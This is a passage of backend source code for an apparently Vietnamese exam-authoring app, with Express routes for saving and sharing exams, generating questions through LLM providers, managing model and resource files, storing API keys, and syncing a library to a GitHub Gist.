      if (info.total > 100) {
        const asset = await saveAsset(req.file, ext, documentExt[ext], assetDir(), 'document');
        return res.json({
          success: true, mode, asset: { ...asset, url: `/api/backgrounds/assets/${asset.asset_id}/file` },
          warnings: [`PDF co ${info.total} trang, vuot gioi han raster 100 trang. File goc da duoc luu nguyen ven; tai file goc de in/gan vung thu cong. Khong co OCR.`],
          review_required: true, background_pages: [], manual_regions: [], extraction: 'not_processed',
          asset_manifest: [{ asset_id: asset.asset_id, sha256: asset.sha256, mime: asset.mime, size: asset.size, role: 'source_document', transfer: 'reference_only', fallback: 'download_original_document_and_keep_exam_content' }]
        });
      }
    }
    let text = '';
    try { text = await extractText(req.file.buffer, ext); }
    catch (e) { return res.status(400).json({ success: false, error: 'File DOCX/PDF bi hong hoac khong doc duoc text native' }); }
    const a = await saveAsset(req.file, ext, documentExt[ext], assetDir(), 'document');
    const warnings = [];
    if (!text.trim()) warnings.push('Khong co text native; PDF scan/tep anh chi dung lam nen va danh dau vung thu cong. OCR khong duoc trien khai.');
    const result = { success: true, mode, asset: { ...a, url: `/api/backgrounds/assets/${a.asset_id}/file` }, warnings, review_required: true };
    if (mode === 'structure') Object.assign(result, { raw_text: text.slice(0, 250000), sections: suggestStructure(text), extraction: text.trim() ? 'native_text' : 'none' });
    else {
      let raster;
      if (ext === '.pdf') {
        raster = await rasterPdfPages(req.file.buffer);
      } else {
        // DOCX: thu chuyen qua docxToPdf (can Word tren Windows)
        try {
          const pdfBuffer = await docxToPdf(req.file.buffer);
          raster = await rasterPdfPages(pdfBuffer);
        } catch (e) {
          raster = { pages: [], warnings: ['Khong chuyen duoc DOCX thanh anh nen: can Microsoft Word tren Windows. File goc da duoc luu de danh dau vung thu cong.'] };
        }
      }
      warnings.push(...raster.warnings);
      Object.assign(result, { background_pages: raster.pages, manual_regions: [], extraction: text.trim() ? 'native_text_available' : 'none' });
    }
    res.json(result);
  } catch (e) { res.status(500).json({ success: false, error: 'Khong nhap duoc tai lieu' }); }
});

module.exports = router;
module.exports.validBuffer = validBuffer;
module.exports.suggestStructure = suggestStructure;

```

### FILE: backend/routes/examRoutes.js

```javascript
const express = require('express');
const crypto = require('crypto');
const path = require('path');
const { pathToFileURL } = require('url');
const { getDb } = require('../database');
const { withLock } = require('../mutex');
const { validateExamPayload } = require('../examValidation');

const router = express.Router();

/**
 * Sample POST /api/exams/save payload:
 * {
 *   "title": "De kiem tra HK1 - Toan 10",
 *   "subject": "Toan",
 *   "duration_minutes": 45,
 *   "school_header": "Truong THPT ABC",
 *   "blocks": [
 *     {
 *       "block_type": "MULTIPLE_CHOICE",
 *       "block_title": "Phan I. Trac nghiem",
 *       "questions": [
 *         {
 *           "question_type": "MCQ",
 *           "content": "2 + 2 = ?",
 *           "difficulty_level": "NB",
 *           "correct_answer": "A",
 *           "explanation": "2+2=4",
 *           "options": [
 *             { "option_key": "A", "option_text": "4", "is_correct": true },
 *             { "option_key": "B", "option_text": "3", "is_correct": false }
 *           ]
 *         }
 *       ]
 *     },
 *     {
 *       "block_type": "ESSAY",
 *       "block_title": "Phan II. Tu luan",
 *       "questions": [
 *         {
 *           "question_type": "ESSAY",
 *           "content": "Giai phuong trinh...",
 *           "difficulty_level": "VDC",
 *           "explanation": "Huong dan giai...",
 *           "draft_lines_count": 8
 *         }
 *       ]
 *     }
 *   ]
 * }
 */
router.post('/save', async (req, res) => {
  const db = await getDb();
  const { title, subject, duration_minutes, school_header, blocks = [] } = req.body;
  if (!title || !Array.isArray(blocks)) {
    return res.status(400).json({ success: false, error: 'Thieu title hoac blocks khong hop le' });
  }

  const validationErrors = validateExamPayload(blocks);
  if (validationErrors.length > 0) {
    return res.status(400).json({ success: false, error: 'Du lieu de thi khong hop le', details: validationErrors });
  }

  const examId = crypto.randomUUID();

  try {
    // Ung dung dung 1 ket noi SQLite dung chung cho moi request. Neu khong
    // xep hang, 2 request /save chay dong thoi co the goi BEGIN TRANSACTION
    // xen ke nhau tren cung 1 ket noi -> SQLite nem "cannot start a
    // transaction within a transaction", va neu ROLLBACK theo sau cung that
    // bai (khong co transaction nao dang mo cho RIENG request nay) thi loi
    // do se thoat khoi try/catch, tro thanh unhandled rejection va LAM SAP
    // TOAN BO SERVER. withLock() dam bao chi 1 giao dich chay tai 1 thoi
    // diem tren ket noi nay.
    await withLock(async () => {
      await db.exec('BEGIN TRANSACTION');
      try {
        await db.run(
          `INSERT INTO EXAM (exam_id, title, subject, duration_minutes, school_header) VALUES (?, ?, ?, ?, ?)`,
          [examId, title, subject || null, duration_minutes || null, school_header || null]
        );

        for (let bi = 0; bi < blocks.length; bi++) {
          const block = blocks[bi];
          const blockId = crypto.randomUUID();
          await db.run(
            `INSERT INTO QUESTION_BLOCK (block_id, exam_id, block_type, block_title, sort_order) VALUES (?, ?, ?, ?, ?)`,
            [blockId, examId, block.block_type, block.block_title || null, bi]
          );

          const questions = block.questions || [];
          for (let qi = 0; qi < questions.length; qi++) {
            const q = questions[qi];
            const questionId = crypto.randomUUID();
            await db.run(
              `INSERT INTO QUESTION (question_id, block_id, question_type, content, difficulty_level, correct_answer, explanation, draft_lines_count, sort_order)
               VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)`,
              [
                questionId,
                blockId,
                q.question_type,
                q.content,
                q.difficulty_level || null,
                q.correct_answer || null,
                q.explanation || null,
                q.draft_lines_count || 0,
                qi
              ]
            );

            const options = q.options || [];
            for (const opt of options) {
              await db.run(
                `INSERT INTO QUESTION_OPTION (option_id, question_id, option_key, option_text, is_correct) VALUES (?, ?, ?, ?, ?)`,
                [crypto.randomUUID(), questionId, opt.option_key, opt.option_text, opt.is_correct ? 1 : 0]
              );
            }
          }
        }

        await db.exec('COMMIT');
      } catch (err) {
        try {
          await db.exec('ROLLBACK');
        } catch (rollbackErr) {
          console.error('ROLLBACK that bai:', rollbackErr);
        }
        throw err;
      }
    });

    res.json({ success: true, exam_id: examId });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi luu de thi' });
  }
});

async function fetchFullExam(db, examId) {
  const exam = await db.get(`SELECT * FROM EXAM WHERE exam_id = ?`, [examId]);
  if (!exam) return null;

  const blocks = await db.all(
    `SELECT * FROM QUESTION_BLOCK WHERE exam_id = ? ORDER BY sort_order ASC`,
    [examId]
  );

  for (const block of blocks) {
    const questions = await db.all(
      `SELECT * FROM QUESTION WHERE block_id = ? ORDER BY sort_order ASC`,
      [block.block_id]
    );
    for (const q of questions) {
      q.options = await db.all(
        `SELECT option_key, option_text, is_correct FROM QUESTION_OPTION WHERE question_id = ?`,
        [q.question_id]
      );
    }
    block.questions = questions;
  }
  exam.blocks = blocks;
  return exam;
}

router.get('/:exam_id', async (req, res) => {
  const db = await getDb();
  try {
    const exam = await fetchFullExam(db, req.params.exam_id);
    if (!exam) return res.status(404).json({ success: false, error: 'Khong tim thay de thi' });
    res.json({ success: true, exam });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi lay du lieu de thi' });
  }
});

router.post('/share', async (req, res) => {
  const db = await getDb();
  try {
    const { exam_id, expires_in_days } = req.body;
    const exam = await db.get(`SELECT exam_id FROM EXAM WHERE exam_id = ?`, [exam_id]);
    if (!exam) return res.status(404).json({ success: false, error: 'De thi khong ton tai' });

    const shareCode = crypto.randomBytes(4).toString('hex');
    const expiresAt = (expires_in_days !== undefined && expires_in_days !== null)
      ? new Date(Date.now() + expires_in_days * 86400000).toISOString()
      : null;

    await db.run(
      `INSERT INTO EXAM_SHARE (share_code, exam_id, expires_at, is_active) VALUES (?, ?, ?, 1)`,
      [shareCode, exam_id, expiresAt]
    );

    res.json({ success: true, share_code: shareCode });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi tao link chia se' });
  }
});

router.delete('/share/:share_code', async (req, res) => {
  const db = await getDb();
  try {
    const result = await db.run(
      `UPDATE EXAM_SHARE SET is_active = 0 WHERE share_code = ?`,
      [req.params.share_code]
    );
    if (!result.changes) {
      return res.status(404).json({ success: false, error: 'Khong tim thay link chia se' });
    }
    res.json({ success: true });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi thu hoi link chia se' });
  }
});

router.get('/shared/:share_code', async (req, res) => {
  const db = await getDb();
  try {
    const share = await db.get(
      `SELECT * FROM EXAM_SHARE WHERE share_code = ? AND is_active = 1`,
      [req.params.share_code]
    );
    if (!share) return res.status(404).json({ success: false, error: 'Link chia se khong hop le' });
    if (share.expires_at && new Date(share.expires_at) < new Date()) {
      return res.status(410).json({ success: false, error: 'Link chia se da het han' });
    }

    const exam = await fetchFullExam(db, share.exam_id);
    if (!exam) return res.status(404).json({ success: false, error: 'Khong tim thay de thi' });
    // Link chia se danh cho hoc sinh: khong tra dap an/loi giai qua API.
    const { redactExamForStudent } = await import(pathToFileURL(path.join(__dirname, '..', 'parser', 'examRedaction.js')).href);
    res.json({ success: true, exam: redactExamForStudent(exam) });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi lay du lieu de thi chia se' });
  }
});

module.exports = router;

```

### FILE: backend/routes/generateRoutes.js

```javascript
const express = require('express');
const { getDb } = require('../database');
const { createProvider } = require('../llm/ProviderFactory');
const { buildPrompt, buildRetryPrompt } = require('../llm/promptBuilder');

const router = express.Router();

const MAX_RETRY = 2; // toi da 2 lan thu lai sau lan dau, tong toi da 3 lan goi LLM
const VALID_PROVIDERS = ['openai', 'anthropic', 'gemini'];

router.post('/', async (req, res) => {
  const { model_id, provider: cloudProvider, model_name, section_ids = [], topic, question_spec = [], extra_instructions } = req.body;

  const db = await getDb();

  let modelRow;
  let apiKey = null;

  if (cloudProvider || model_name) {
    // Model cloud "live" - khong can dang ky vao LLM_MODEL, chi can key da luu.
    if (!VALID_PROVIDERS.includes(cloudProvider)) {
      return res.status(400).json({ success: false, error: `provider khong hop le: "${cloudProvider}"` });
    }
    if (!model_name || !String(model_name).trim()) {
      return res.status(400).json({ success: false, error: 'Thieu model_name' });
    }
    const settings = await db.get('SELECT api_key FROM LLM_SETTINGS WHERE provider = ?', [cloudProvider]);
    if (!settings) {
      return res.status(400).json({ success: false, error: `Chua cau hinh API key cho provider "${cloudProvider}"` });
    }
    apiKey = settings.api_key;
    modelRow = { source_type: 'cloud', provider: cloudProvider, model_name };
  } else if (model_id) {
    modelRow = await db.get('SELECT * FROM LLM_MODEL WHERE model_id = ?', [model_id]);
    if (!modelRow) {
      return res.status(404).json({ success: false, error: 'Khong tim thay model da chon' });
    }
    if (modelRow.source_type === 'cloud') {
      const settings = await db.get('SELECT api_key FROM LLM_SETTINGS WHERE provider = ?', [modelRow.provider]);
      if (!settings) {
        return res.status(400).json({ success: false, error: `Chua cau hinh API key cho provider "${modelRow.provider}"` });
      }
      apiKey = settings.api_key;
    }
  } else {
    return res.status(400).json({ success: false, error: 'Thieu model_id hoac provider/model_name' });
  }

  let provider;
  try {
    provider = createProvider(modelRow, apiKey);
  } catch (err) {
    return res.status(400).json({ success: false, error: err.message });
  }

  let sectionsContent = [];
  if (Array.isArray(section_ids) && section_ids.length > 0) {
    const placeholders = section_ids.map(() => '?').join(',');
    const rows = await db.all(
      `SELECT content FROM RESOURCE_SECTION WHERE section_id IN (${placeholders})`,
      section_ids
    );
    sectionsContent = rows.map(r => r.content);
  }

  let prompt;
  try {
    prompt = buildPrompt({ topic, sectionsContent, questionSpec: question_spec, extraInstructions: extra_instructions });
  } catch (err) {
    console.error(err);
    return res.status(500).json({ success: false, error: 'Loi tao prompt' });
  }

  const { TextPromptParser } = await import('../parser/TextPromptParser.js');
  const parser = new TextPromptParser();

  let lastParseError = null;
  let currentPrompt = prompt;

  for (let attempt = 0; attempt <= MAX_RETRY; attempt++) {
    let rawText;
    try {
      rawText = await provider.generate(currentPrompt);
    } catch (err) {
      return res.status(502).json({ success: false, error: err.message });
    }

    try {
      const blocks = parser.parse(rawText);
      return res.json({ success: true, blocks });
    } catch (parseErr) {
      lastParseError = parseErr;
      currentPrompt = buildRetryPrompt(prompt, parseErr.message);
    }
  }

  res.status(422).json({
    success: false,
    error: 'AI sinh sai dinh dang sau nhieu lan thu',
    details: lastParseError ? lastParseError.message : null
  });
});

module.exports = router;

```

### FILE: backend/routes/modelRoutes.js

```javascript
const express = require('express');
const fs = require('fs');
const path = require('path');
const crypto = require('crypto');
const multer = require('multer');
const { getDb } = require('../database');

const router = express.Router();

// Cho phep tro toi 1 thu muc tam khi test (giong EXAM_DB_PATH trong
// backend/database.js), tranh ghi file that vao resources/models/ that.
const MODELS_DIR = process.env.LLM_MODELS_DIR || path.join(__dirname, '..', '..', 'resources', 'models');
const VALID_CLOUD_PROVIDERS = ['openai', 'anthropic', 'gemini'];
const MAX_MODEL_FILE_BYTES = 8 * 1024 * 1024 * 1024; // 8GB

const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    fs.mkdirSync(MODELS_DIR, { recursive: true });
    cb(null, MODELS_DIR);
  },
  filename: (req, file, cb) => {
    cb(null, `${crypto.randomUUID()}.gguf`);
  }
});

const upload = multer({
  storage,
  limits: { fileSize: MAX_MODEL_FILE_BYTES },
  fileFilter: (req, file, cb) => {
    if (path.extname(file.originalname).toLowerCase() !== '.gguf') {
      return cb(new Error('Chi chap nhan file .gguf'));
    }
    cb(null, true);
  }
});

router.get('/', async (req, res) => {
  const db = await getDb();
  try {
    const rows = await db.all(
      `SELECT model_id, display_name, source_type, provider, model_name, file_size, created_at
       FROM LLM_MODEL ORDER BY created_at DESC`
    );
    res.json({ success: true, models: rows });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc danh sach model' });
  }
});

router.post('/cloud', async (req, res) => {
  const { display_name, provider, model_name } = req.body;
  if (!display_name || !String(display_name).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu display_name' });
  }
  if (!VALID_CLOUD_PROVIDERS.includes(provider)) {
    return res.status(400).json({ success: false, error: `provider khong hop le: "${provider}"` });
  }
  if (!model_name || !String(model_name).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu model_name' });
  }

  const db = await getDb();
  const modelId = crypto.randomUUID();
  try {
    await db.run(
      `INSERT INTO LLM_MODEL (model_id, display_name, source_type, provider, model_name) VALUES (?, ?, 'cloud', ?, ?)`,
      [modelId, display_name.trim(), provider, model_name.trim()]
    );
    res.json({ success: true, model_id: modelId });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi them model cloud' });
  }
});

router.post('/local', (req, res) => {
  upload.single('model_file')(req, res, async (uploadErr) => {
    if (uploadErr) {
      return res.status(400).json({ success: false, error: uploadErr.message });
    }
    if (!req.file) {
      return res.status(400).json({ success: false, error: 'Thieu file model' });
    }

    const displayName = (req.body.display_name || req.file.originalname).trim();
    const db = await getDb();
    const modelId = crypto.randomUUID();
    try {
      await db.run(
        `INSERT INTO LLM_MODEL (model_id, display_name, source_type, file_path, file_size) VALUES (?, ?, 'local_gguf', ?, ?)`,
        [modelId, displayName, req.file.path, req.file.size]
      );
      res.json({ success: true, model_id: modelId });
    } catch (err) {
      console.error(err);
      fs.unlink(req.file.path, () => {});
      res.status(500).json({ success: false, error: 'Loi luu model local' });
    }
  });
});

router.delete('/:model_id', async (req, res) => {
  const db = await getDb();
  try {
    const model = await db.get('SELECT file_path FROM LLM_MODEL WHERE model_id = ?', [req.params.model_id]);
    if (!model) {
      return res.status(404).json({ success: false, error: 'Khong tim thay model' });
    }
    await db.run('DELETE FROM LLM_MODEL WHERE model_id = ?', [req.params.model_id]);
    if (model.file_path) {
      fs.unlink(model.file_path, () => {});
    }
    res.json({ success: true });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi xoa model' });
  }
});

module.exports = router;

```

### FILE: backend/routes/resourceRoutes.js

```javascript
const express = require('express');
const crypto = require('crypto');
const multer = require('multer');
const mammoth = require('mammoth');
const { PDFParse } = require('pdf-parse');
const { getDb } = require('../database');

const router = express.Router();
const upload = multer({ storage: multer.memoryStorage(), limits: { fileSize: 20 * 1024 * 1024 } });

async function insertSection(db, docId, sectionTitle, content) {
  const countRow = await db.get('SELECT COUNT(*) AS n FROM RESOURCE_SECTION WHERE doc_id = ?', [docId]);
  const sectionId = crypto.randomUUID();
  await db.run(
    'INSERT INTO RESOURCE_SECTION (section_id, doc_id, section_title, content, sort_order) VALUES (?, ?, ?, ?, ?)',
    [sectionId, docId, sectionTitle, content, countRow.n]
  );
  return sectionId;
}

router.get('/', async (req, res) => {
  const db = await getDb();
  try {
    const docs = await db.all('SELECT doc_id, title, subject, created_at FROM RESOURCE_DOCUMENT ORDER BY created_at DESC');
    for (const doc of docs) {
      doc.sections = await db.all(
        'SELECT section_id, section_title, sort_order FROM RESOURCE_SECTION WHERE doc_id = ? ORDER BY sort_order ASC',
        [doc.doc_id]
      );
    }
    res.json({ success: true, documents: docs });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc thu vien tai lieu' });
  }
});

router.post('/', async (req, res) => {
  const { title, subject } = req.body;
  if (!title || !String(title).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu title' });
  }

  const db = await getDb();
  const docId = crypto.randomUUID();
  try {
    await db.run(
      'INSERT INTO RESOURCE_DOCUMENT (doc_id, title, subject) VALUES (?, ?, ?)',
      [docId, title.trim(), subject || null]
    );
    res.json({ success: true, doc_id: docId });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi tao tai lieu' });
  }
});

router.post('/:doc_id/sections', async (req, res) => {
  const { section_title, content } = req.body;
  if (!section_title || !String(section_title).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu section_title' });
  }
  if (!content || !String(content).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu content' });
  }

  const db = await getDb();
  try {
    const doc = await db.get('SELECT doc_id FROM RESOURCE_DOCUMENT WHERE doc_id = ?', [req.params.doc_id]);
    if (!doc) {
      return res.status(404).json({ success: false, error: 'Khong tim thay tai lieu' });
    }

    const sectionId = await insertSection(db, req.params.doc_id, section_title.trim(), content);
    res.json({ success: true, section_id: sectionId });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi them phan tai lieu' });
  }
});

router.post('/:doc_id/sections/upload', (req, res) => {
  upload.single('file')(req, res, async (uploadErr) => {
    if (uploadErr) {
      return res.status(400).json({ success: false, error: uploadErr.message });
    }
    if (!req.file) {
      return res.status(400).json({ success: false, error: 'Thieu file' });
    }

    const db = await getDb();
    try {
      const doc = await db.get('SELECT doc_id FROM RESOURCE_DOCUMENT WHERE doc_id = ?', [req.params.doc_id]);
      if (!doc) {
        return res.status(404).json({ success: false, error: 'Khong tim thay tai lieu' });
      }

      const originalName = req.file.originalname || '';
      const ext = originalName.split('.').pop().toLowerCase();

      let content;
      if (ext === 'txt') {
        content = req.file.buffer.toString('utf8');
      } else if (ext === 'docx') {
        try {
          const result = await mammoth.extractRawText({ buffer: req.file.buffer });
          content = result.value;
        } catch (err) {
          return res.status(400).json({ success: false, error: `Khong the doc noi dung tep Word: ${err.message}` });
        }
      } else if (ext === 'pdf') {
        let parser;
        try {
          parser = new PDFParse({ data: req.file.buffer });
          const result = await parser.getText();
          content = result.text;
        } catch (err) {
          return res.status(400).json({ success: false, error: `Khong the doc noi dung tep PDF: ${err.message}` });
        } finally {
          if (parser) await parser.destroy();
        }
      } else {
        return res.status(400).json({ success: false, error: `Dinh dang tep khong duoc ho tro: ".${ext}". Chi nhan .txt, .docx, .pdf` });
      }

      if (!content || !content.trim()) {
        return res.status(400).json({ success: false, error: 'Tep khong co noi dung van ban' });
      }

      const sectionTitle = (req.body.section_title && req.body.section_title.trim())
        || originalName.replace(/\.[^.]+$/, '')
        || 'Phan moi';

      const sectionId = await insertSection(db, req.params.doc_id, sectionTitle, content);
      res.json({ success: true, section_id: sectionId });
    } catch (err) {
      console.error(err);
      res.status(500).json({ success: false, error: 'Loi tai file len' });
    }
  });
});

router.delete('/:doc_id', async (req, res) => {
  const db = await getDb();
  try {
    const result = await db.run('DELETE FROM RESOURCE_DOCUMENT WHERE doc_id = ?', [req.params.doc_id]);
    if (!result.changes) {
      return res.status(404).json({ success: false, error: 'Khong tim thay tai lieu' });
    }
    res.json({ success: true });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi xoa tai lieu' });
  }
});

module.exports = router;

```

### FILE: backend/routes/settingsRoutes.js

```javascript
const express = require('express');
const { getDb } = require('../database');
const { createProvider, listModelsFor } = require('../llm/ProviderFactory');

const router = express.Router();

const VALID_PROVIDERS = ['openai', 'anthropic', 'gemini'];

function maskKey(key) {
  if (!key || key.length < 8) return '***';
  return `${key.slice(0, 3)}...${key.slice(-4)}`;
}

router.get('/llm', async (req, res) => {
  const db = await getDb();
  try {
    const rows = await db.all('SELECT provider, api_key, updated_at FROM LLM_SETTINGS');
    res.json({
      success: true,
      providers: rows.map(r => ({
        provider: r.provider,
        has_key: true,
        masked_key: maskKey(r.api_key),
        updated_at: r.updated_at
      }))
    });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc cau hinh LLM' });
  }
});

router.post('/llm', async (req, res) => {
  const { provider, api_key } = req.body;
  if (!VALID_PROVIDERS.includes(provider)) {
    return res.status(400).json({ success: false, error: `provider khong hop le: "${provider}"` });
  }
  if (!api_key || !String(api_key).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu api_key' });
  }

  const db = await getDb();
  try {
    await db.run(
      `INSERT INTO LLM_SETTINGS (provider, api_key, updated_at) VALUES (?, ?, datetime('now'))
       ON CONFLICT(provider) DO UPDATE SET api_key = excluded.api_key, updated_at = datetime('now')`,
      [provider, api_key.trim()]
    );
    res.json({ success: true });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi luu cau hinh LLM' });
  }
});

router.post('/llm/test', async (req, res) => {
  const { provider, api_key, model_name } = req.body;
  if (!VALID_PROVIDERS.includes(provider)) {
    return res.status(400).json({ success: false, error: `provider khong hop le: "${provider}"` });
  }
  if (!model_name || !String(model_name).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu model_name de kiem tra' });
  }

  const db = await getDb();
  try {
    let keyToUse = api_key && String(api_key).trim();
    if (!keyToUse) {
      const saved = await db.get('SELECT api_key FROM LLM_SETTINGS WHERE provider = ?', [provider]);
      keyToUse = saved?.api_key;
    }
    if (!keyToUse) {
      return res.status(400).json({ success: false, error: 'Chua co api_key de kiem tra (chua nhap hoac chua luu)' });
    }

    const providerInstance = createProvider(
      { source_type: 'cloud', provider, model_name: model_name.trim() },
      keyToUse
    );
    await providerInstance.generate('Tra loi ngan gon: OK');
    res.json({ success: true });
  } catch (err) {
    res.status(502).json({ success: false, error: err.message });
  }
});

router.post('/llm/models', async (req, res) => {
  const { provider, api_key } = req.body;
  if (!VALID_PROVIDERS.includes(provider)) {
    return res.status(400).json({ success: false, error: `provider khong hop le: "${provider}"` });
  }

  const db = await getDb();
  try {
    let keyToUse = api_key && String(api_key).trim();
    if (!keyToUse) {
      const saved = await db.get('SELECT api_key FROM LLM_SETTINGS WHERE provider = ?', [provider]);
      keyToUse = saved?.api_key;
    }
    if (!keyToUse) {
      return res.status(400).json({ success: false, error: 'Chua co api_key de lay danh sach model (chua nhap hoac chua luu)' });
    }

    const models = await listModelsFor(provider, keyToUse);
    res.json({ success: true, models });
  } catch (err) {
    res.status(502).json({ success: false, error: err.message });
  }
});

module.exports = router;

```

### FILE: backend/routes/syncRoutes.js

```javascript
const express = require('express');
const { getDb } = require('../database');
const { withLock } = require('../mutex');
const gistClient = require('../sync/gistClient');
const {
  rowsToLibrary,
  libraryToRows,
  mergeLibraries,
  purgeOldTombstones,
  parseLibrary,
  sanitizeTheme,
  emptyLibrary,
  summarize
} = require('../sync/library');

const router = express.Router();

function maskToken(token) {
  if (!token) return null;
  if (token.length < 10) return '***';
  return `${token.slice(0, 4)}...${token.slice(-4)}`;
}

async function readSettings(db) {
  return (await db.get('SELECT github_token, gist_id, last_synced_at FROM SYNC_SETTINGS WHERE id = 1')) || {};
}

/**
 * Ghi ket qua merge nguoc lai vao SAVED_EXAM. Vi ung dung dung chung 1 ket
 * noi SQLite, phai xep hang qua withLock() + boc transaction (xem
 * backend/routes/examRoutes.js va backend/mutex.js).
 */
async function persistLibrary(db, library) {
  const rows = libraryToRows(library);
  await withLock(async () => {
    await db.exec('BEGIN TRANSACTION');
    try {
      for (const r of rows) {
        await db.run(
          `INSERT INTO SAVED_EXAM
             (exam_id, title, subject, duration_minutes, school_header, payload_json, created_at, updated_at, deleted_at)
           VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)
           ON CONFLICT(exam_id) DO UPDATE SET
             title = excluded.title,
             subject = excluded.subject,
             duration_minutes = excluded.duration_minutes,
             school_header = excluded.school_header,
             payload_json = excluded.payload_json,
             created_at = excluded.created_at,
             updated_at = excluded.updated_at,
             deleted_at = excluded.deleted_at`,
          [
            r.exam_id, r.title, r.subject, r.duration_minutes, r.school_header,
            r.payload_json, r.created_at, r.updated_at, r.deleted_at
          ]
        );
      }
      await db.exec('COMMIT');
    } catch (err) {
      try {
        await db.exec('ROLLBACK');
      } catch (rollbackErr) {
        console.error('ROLLBACK that bai:', rollbackErr);
      }
      throw err;
    }
  });
}

async function touchLastSynced(db) {
  await db.run(
    `INSERT INTO SYNC_SETTINGS (id, last_synced_at) VALUES (1, strftime('%Y-%m-%dT%H:%M:%SZ','now'))
     ON CONFLICT(id) DO UPDATE SET last_synced_at = strftime('%Y-%m-%dT%H:%M:%SZ','now')`
  );
}

async function localLibrary(db) {
  const rows = await db.all('SELECT * FROM SAVED_EXAM');
  return rowsToLibrary(rows);
}

router.get('/settings', async (req, res) => {
  const db = await getDb();
  try {
    const s = await readSettings(db);
    res.json({
      success: true,
      configured: !!s.github_token,
      has_token: !!s.github_token,
      masked_token: maskToken(s.github_token),
      gist_id: s.gist_id || '',
      last_synced_at: s.last_synced_at || null
    });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc cau hinh dong bo' });
  }
});

router.post('/settings', async (req, res) => {
  const db = await getDb();
  const body = req.body || {};
  try {
    const current = await readSettings(db);
    let token = current.github_token || null;
    let gistId = current.gist_id || null;

    if (typeof body.github_token === 'string' && body.github_token.trim()) {
      token = body.github_token.trim();
    }
    if (Object.prototype.hasOwnProperty.call(body, 'gist_id')) {
      gistId = body.gist_id ? String(body.gist_id).trim() : null;
    }

    await db.run(
      `INSERT INTO SYNC_SETTINGS (id, github_token, gist_id) VALUES (1, ?, ?)
       ON CONFLICT(id) DO UPDATE SET github_token = excluded.github_token, gist_id = excluded.gist_id`,
      [token, gistId]
    );
    res.json({ success: true, has_token: !!token, gist_id: gistId || '' });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi luu cau hinh dong bo' });
  }
});

// Push: may -> cloud. merge(local, cloud) roi ghi de Gist va ghi nguoc ve may.
router.post('/push', async (req, res) => {
  const db = await getDb();
  try {
    const s = await readSettings(db);
    if (!s.github_token) {
      return res.status(400).json({ success: false, error: 'Chua cau hinh GitHub token trong muc Dong bo.' });
    }

    let local = purgeOldTombstones(await localLibrary(db));
    // Chu de mau: web luu o localStorage nen client gui kem trong body.
    const clientTheme = sanitizeTheme(req.body && req.body.theme);
    if (clientTheme) local.theme = clientTheme;

    let cloud = emptyLibrary();
    let gistId = s.gist_id || null;
    let gistUrl = null;

    if (gistId) {
      const raw = await gistClient.getLibrary(s.github_token, gistId);
      cloud = raw ? parseLibrary(raw) : emptyLibrary();
    }

    const merged = mergeLibraries(local, cloud);
    const content = JSON.stringify(merged, null, 2);

    if (gistId) {
      const r = await gistClient.updateGist(s.github_token, gistId, content);
      gistUrl = r.html_url;
    } else {
      const r = await gistClient.createGist(s.github_token, content);
      gistId = r.id;
      gistUrl = r.html_url;
      await db.run(
        `INSERT INTO SYNC_SETTINGS (id, gist_id) VALUES (1, ?)
         ON CONFLICT(id) DO UPDATE SET gist_id = excluded.gist_id`,
        [gistId]
      );
    }

    await persistLibrary(db, merged);
    await touchLastSynced(db);

    res.json({ success: true, direction: 'push', gist_id: gistId, gist_url: gistUrl, result: summarize(merged), theme: merged.theme || null });
  } catch (err) {
    console.error(err);
    res.status(502).json({ success: false, error: err.message || 'Loi day len Gist' });
  }
});

// Pull: cloud -> may. merge(cloud, local) roi ghi ve may.
router.post('/pull', async (req, res) => {
  const db = await getDb();
  try {
    const s = await readSettings(db);
    if (!s.github_token) {
      return res.status(400).json({ success: false, error: 'Chua cau hinh GitHub token trong muc Dong bo.' });
    }
    if (!s.gist_id) {
      return res.status(400).json({ success: false, error: 'Chua co Gist ID. Hay "Day len" tu mot may de tao Gist truoc.' });
    }

    const raw = await gistClient.getLibrary(s.github_token, s.gist_id);
    const cloud = raw ? parseLibrary(raw) : emptyLibrary();
    const local = await localLibrary(db);
    const clientTheme = sanitizeTheme(req.body && req.body.theme);
    if (clientTheme) local.theme = clientTheme;

    const merged = mergeLibraries(cloud, local);
    await persistLibrary(db, merged);
    await touchLastSynced(db);

    res.json({ success: true, direction: 'pull', gist_id: s.gist_id, result: summarize(merged), theme: merged.theme || null });
  } catch (err) {
    console.error(err);
    res.status(502).json({ success: false, error: err.message || 'Loi keo ve tu Gist' });
  }
});

module.exports = router;

```

### FILE: backend/server.js

```javascript
const path = require('path');
const express = require('express');
const examRoutes = require('./routes/examRoutes');
const backgroundRoutes = require('./routes/backgroundRoutes');
const settingsRoutes = require('./routes/settingsRoutes');
const modelRoutes = require('./routes/modelRoutes');
const resourceRoutes = require('./routes/resourceRoutes');
const generateRoutes = require('./routes/generateRoutes');
const archiveRoutes = require('./routes/archiveRoutes');
